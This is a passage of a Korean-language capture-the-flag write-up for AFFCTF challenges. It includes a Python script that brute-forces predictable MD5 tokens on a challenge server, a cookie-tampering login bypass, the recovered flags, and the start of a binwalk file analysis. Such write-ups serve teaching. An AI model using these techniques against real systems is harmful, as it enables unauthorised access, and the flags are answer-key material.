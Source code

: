 ```python
import requests
import hashlib

url = 'http://165.22.22.11:25632/download.php?file=flag.txt&token='

def req(token) :
    res = requests.get(url+token)
    if "Invalid token" not in res.text :
        print("[!] token is " + token)
        print("  => " + res.text)
        return True
    return False
        
i = 0
chk = False
while not chk :
    print("[*] Try : " + str(i))
    token = hashlib.md5(str(i).encode('utf-8')).hexdigest()
    i += 1
    chk = req(token)
```
**result**
```
[*] Try : 0
[*] Try : 1
[*] Try : 2

(...)

[*] Try : 34
[!] token is e369853df766fa44e1ed0ff613f563bd
  => AFFCTF{Pr3dic71bl3_t0k3n5_4r3_b4d}
```
## flag
`AFFCTF{Pr3dic71bl3_t0k3n5_4r3_b4d}`


# Hello unknown
http://165.22.22.11:25633/
## play
쿠키정보를 보면 `user`에 `unknown`이라는 데이터가 들어있다. `admin`으로 바꾸면 admin으로 로그인 되어 flag탭이 새로 생긴다. 그러나 그 탭에 들어가보면 flag를 주지 않는다. `burpsuite`를 켜고 조금 둘러보니 로그인을 할 때 `logged`라는 쿠키가 생겼다가 사라진다. 로그인 실패 시 이 쿠키에 `false`라는 값이 담기는데, `true`로 바꾸어주면 flag를 볼 수 있다.
## flag
`AFFCTF{n3v3r_7ru57_u5er5_1npUt}`

# Reflection
## play
`task.gif` 파일이 주어졌다.
``` bash
Reflection git:(master) ✗ binwalk task.gif

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             GIF image data, version "89a", 480 x 480
285539        0x45B63         gzip compressed data, from Unix, NULL date (1970-01-01 00:00:00)
285695        0x45BFF         GIF image data, version "89a", 540 x 283
```